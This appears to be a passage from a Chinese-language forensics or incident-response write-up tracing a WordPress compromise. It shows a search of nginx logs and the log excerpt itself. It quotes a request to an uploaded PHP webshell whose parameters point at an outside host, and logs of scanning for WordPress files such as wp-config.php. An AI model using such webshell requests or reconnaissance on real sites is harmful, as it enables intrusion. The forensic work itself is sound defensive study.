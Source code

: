 在 ==/var/log/nginx== 下的日志文件中搜索上面的文件名
` /wp-content/uploads/2021/07/d799bae6088a90139b415fccb011d540531df83b.php?u=hacker&p=wuhu&t=http://wuhu.hackerbase.io/i`
![](attachment/Pasted%20image%2020230220183250.png)
日志数量很多但是发现大量的都是404的扫描，将其批量删除剩余的信息
```shell
192.168.1.1 - - [06/Jul/2021:03:10:06 -0400] "GET / HTTP/1.1" 200 8438 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:06 -0400] "GET /%2e%2e//google.com HTTP/1.1" 400 173 "-" "-"1
92.168.1.1 - - [06/Jul/2021:03:10:15 -0400] "GET /index.php HTTP/1.1" 301 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:16 -0400] "GET /license.txt HTTP/1.1" 200 19915 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:18 -0400] "GET /readme.html HTTP/1.1" 200 7345 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-admin HTTP/1.1" 301 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-content HTTP/1.1" 301 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-admin/ HTTP/1.1" 302 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-admin/admin-ajax.php HTTP/1.1" 400 11 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-admin/setup-config.php HTTP/1.1" 409 2773 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-content/ HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-admin/install.php HTTP/1.1" 200 1287 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-config.php HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-content/plugins/hello.php HTTP/1.1" 500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-content/uploads/ HTTP/1.1" 403 571 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-includes HTTP/1.1" 301 185 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.1.1 - - [06/Jul/2021:03:10:20 -0400] "GET /wp-includes/rss-functions.php HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
```